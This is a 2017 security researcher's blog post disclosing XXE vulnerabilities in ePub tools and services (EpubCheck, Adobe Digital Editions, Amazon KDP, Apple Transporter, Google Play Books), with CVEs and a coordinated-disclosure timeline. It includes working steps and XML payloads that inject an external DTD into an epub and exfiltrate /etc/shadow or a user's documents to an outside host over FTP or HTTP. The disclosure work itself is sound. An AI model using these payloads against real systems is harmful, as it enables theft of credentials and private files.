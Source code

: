 ```yaml
---
layout: post
title:  "This book reads you - exploiting services and readers that support the ePub book format"
date:   2017-01-25 12:00:00
categories: epub
---
```


> "We use the ePub format - it is the most popular open book format in the world. We’re very excited about this." - Steve Jobs, 2010 (original iPad launch)

TLDR; Applying a familiar XXE pattern to exploit services & readers that consume the ePUB format. Exploiting vulnerabilities in **EpubCheck <= 4.0.1** (ePub Validation Java Library & tool), **Adobe Digital Editions <= 4.5.2** (book reader), **Amazon KDP** (Kindle Publishing Online Service), **Apple Transporter**, and **Google Play Book uploads**, etc.

ePub is a standard format for open books maintained by [IDPF](http://www.idpf.org/) (International Digital Publishing Forum). IDPF is a trade and standards association for the digital publishing industry, set up to establish a standard for ebook publishing. Their membership list: [http://idpf.org/membership/members](http://idpf.org/membership/members)

An epub is based on XML, CSS, XHTML, etc web content zipped together into a single package, which ends in the extension .epub. Depending on the reader device/application support, [ePub](http://www.idpf.org/epub/30/spec/epub30-changes.html#sec-new-changed) can also support interactivity using Flash and Javascript.

ePub uses XML metadata to define the document structure, support digital signatures, digital rights (DRM) etc.

eg., epub archive:
{% highlight javascript %}
Archive:  book.epub
  Length      Date    Time    Name
---------  ---------- -----   ----
       20  04-09-2014 15:41   mimetype
     2189  04-09-2014 15:41   toc.ncx
    39962  04-09-2014 15:41   OEBPS/chapter-001-chapter-i.html
    41745  04-09-2014 15:41   OEBPS/chapter-002-chapter-ii.html
      684  04-09-2014 15:41   OEBPS/title-page.html
      557  04-09-2014 15:41   OEBPS/front-cover.html
    42220  04-09-2014 15:41   OEBPS/chapter-003-chapter-iii.html
     1185  04-09-2014 15:41   OEBPS/copyright.html
      884  04-09-2014 15:41   OEBPS/table-of-contents.html
   234790  04-09-2014 15:41   OEBPS/assets/pressbooks-promo.png
    33684  04-09-2014 15:41   OEBPS/assets/MedulaOne-Regular.ttf
   244146  04-09-2014 15:41   OEBPS/assets/themetamorphosis_1200x1600.jpg
      661  04-09-2014 15:41   OEBPS/pressbooks-promo.html
    27328  04-09-2014 15:41   OEBPS/jackson.css
     3494  04-09-2014 15:41   book.opf
      240  04-09-2014 15:41   META-INF/container.xml
      157  04-09-2014 15:41   META-INF/com.apple.ibooks.display-options.xml
---------                     -------
   673946                     17 files
{% endhighlight %}

eg., contents of META-INF/container.xml
{% highlight xml %}
<?xml version="1.0"?>
<container version="1.0" xmlns="urn:oasis:names:tc:opendocument:xmlns:container">
 <rootfiles>
 <rootfile full-path="OEBPS/book.opf"
 media-type="application/oebps-package+xml" />
 </rootfiles>
</container>
{% endhighlight %}

eg., contents of book.opf
{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" ?>
    <package version="2.0" xmlns="http://www.idpf.org/2007/opf" unique-identifier="PrimaryID">
    <metadata xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:opf="http://www.idpf.org/2007/opf">
    <dc:title>My Book </dc:title>
    <dc:language>en</dc:language>
    <dc:identifier id="PrimaryID" opf:scheme="URI">http://mybook.com</dc:identifier>
    <dc:description>Description</dc:description>
    <dc:creator opf:role="aut">Author</dc:creator>
    <dc:publisher>Publisher.com</dc:publisher>
    <meta name="cover" content="cover-image" />
</metadata>
{% endhighlight %}

When I first started looking into this, I learned about a tool/Java library called [EpubCheck](https://github.com/IDPF/epubcheck/releases) (provided by IDPF) that is used to validate books in the ePub format. Book publishers tend to perform a validation step using something like this to check the format validity. The validator tool/library was vulnerable to XXE, so any application that relies on a vulnerable version to check the validity of a book would be susceptible to this type of attack. 

#### Modifying an existing ePub file to test for XML parsing vulnerabilities:

* __curl https://s3-us-west-2.amazonaws.com/pressbooks-samplefiles/MetamorphosisJacksonTheme/Metamorphosis-jackson.epub -o book.epub__

* __unzip book.epub; rm book.epub__

* __Edit any of the files that contain XML metadata.__ 

eg., book.opf  (XXE - XML External Entities pattern)
{% highlight xml %}
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE a [<!ENTITY % b SYSTEM "http://123.123.123.123/dtd">%b;%c;]><package version="2.0" xmlns="http://www.idpf.org/2007/opf" unique-identifier="PrimaryID">
<metadata xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:opf="http://www.idpf.org/2007/opf">
<dc:title>Metamorphosis</dc:title>
<dc:language>en</dc:language>
<dc:identifier id="PrimaryID" opf:scheme="URI">http://metamorphosiskafka.pressbooks.com</dc:identifier>
<dc:description>&send;</dc:description>
{% endhighlight %}

* __zip -r book.epub *__

* __Point at a HTTP server to serve the following contents, and specifying a FTP server to recieve the specified file__

{% highlight xml %}
<!ENTITY % d SYSTEM "file:///etc/shadow">
<!ENTITY % c "<!ENTITY send SYSTEM 'ftp://123.123.123.123/%d;'>">
{% endhighlight %}

**EpubCheck <= 4.0.1** 

There was a online instance of EpubCheck, that would accept user uploads and perform validation on the format. This provides an example of how this vulnerability could be used to attack online services that support ePub in some way, if they are using a vulnerable version of EpubCheck to validate the uploaded file. 

Uploading our created file:
![Image](/assets/epub/upload.png)

HTTP listener receiving the dtd request when parsed by the remote XML parser, and custom FTP listener receiving the file (I didn't think it would work, but specified /etc/shadow as the file to retrieve).  
![Image](/assets/epub/EPubCheck.png)

This means that we accidentally retrieved the /etc/shadow file. Public facing web apps running as root/system in prod... 😫

A few examples of other services, and applications I came across that were vulnerable:

**Amazon KDP** which allows publishers to upload books, was susceptible to XXE when converting books to the Kindle format. 
![Image](/assets/epub/AMZ1.png)
![Image](/assets/epub/AMZ2.png)

**[Adobe Digital Editions](http://www.adobe.com/solutions/ebook/digital-editions.html) <= 4.5.2** (book reader) when a user opens a book, this would allow files to be taken from their system. [CVE-2016-7889](https://helpx.adobe.com/security/products/Digital-Editions/apsb16-45.html).

External DTD specifying the file to retrive:

{% highlight xml %}
<!ENTITY % d SYSTEM "file:///c:/Users/Documents/secret.txt">
<!ENTITY % c "<!ENTITY send SYSTEM 'http://123.123.123.123/exfil/%d;'>">
{% endhighlight %}

eg., Retriving secret stuff from a users Windows documents folder:
![Image](/assets/epub/ADE.png)

**Apple Transporter** (underlying tool used to validate metadata and assets and deliver them to the iTunes Store), [CVE-2016-7666](https://support.apple.com/en-us/HT207432).
![Image](/assets/epub/Transporter.png)

**[Google Play Book uploads](https://play.google.com/books/uploads)** did not allow external entity processing, but was vulnerable to XML exponential entity expansion [billion laughs](https://cwe.mitre.org/data/definitions/776.html). When uploading a ePub with this pattern, it would spend about 45 minutes trying to process the file before returning an error condition. Google confirmed this on their side.

There are more things going on with the ePub format beyond the familiar patterns shown here. Some applications will allow Flash to be run, and Javascript execution in the context of the book reader, so you can imagine this can be used to perform some attacks; currently waiting on vendor fixes before talking about this. 

Disclosure timeline stuff:

* Sep 2016: Reported XXE in EpubCheck <= 4.0.1.
* Sep 2016: Reported XXE in Adobe Digital Editions <= 4.5.2.
* Sep 2016: Reported XXE in Amazon KDP.
* Oct 2016: Reported XXE in Apple Transporter
* Oct 2016: Reported XML exponential entity expansion in play.google.com book uploads.
* Dec 2016: Coordinated disclosure.
* Jan 2017: This blog post (lots of time for users to patch).

Thanks to [CERT/CC](http://www.cert.org/) for their help in coordinating with different vendors & IDPF, and setting a disclosure timeline. I only tested a handful of digital readers and services, so if you find other vulnerable readers/services, tell CERT/CC (they were tracking the ePubCheck issue as VU#779243).

If you got this far, thanks for reading. 👋 

[@craig](https://twitter.com/craig_arendt)